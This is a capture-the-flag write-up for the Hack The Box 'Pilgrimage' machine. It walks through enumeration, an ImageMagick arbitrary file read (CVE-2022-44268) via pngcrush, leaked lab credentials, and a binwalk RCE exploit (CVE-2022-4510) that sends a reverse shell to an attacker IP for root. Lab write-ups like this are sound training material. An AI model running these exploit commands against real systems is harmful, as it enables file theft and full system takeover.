

# Pilgrimage

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
   <p align="center"></p>
4. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
5. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
